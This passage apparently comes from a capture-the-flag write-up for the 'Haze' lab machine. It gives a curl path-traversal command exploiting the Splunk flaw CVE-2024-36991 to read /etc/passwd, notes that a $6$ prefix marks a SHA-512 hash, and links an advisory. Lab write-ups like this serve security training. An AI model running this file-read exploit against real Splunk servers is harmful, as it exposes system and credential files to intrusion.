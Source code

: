 ![](images/media/image6.png){width="6.298611111111111in"
height="3.033333333333333in"}

**[ALTERNATIVE:]{.mark}**

**RUN:** **curl -s
http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd**

![](images/media/image7.png){width="6.29375in"
height="0.5638888888888889in"}

The \$6\$ prefix specifically indicates that the password hash uses the
**SHA-512** algorithm.

**7.**INFO:
<https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads>

![](images/media/image8.png){width="6.061610892388451in"
height="1.3820734908136483in"}
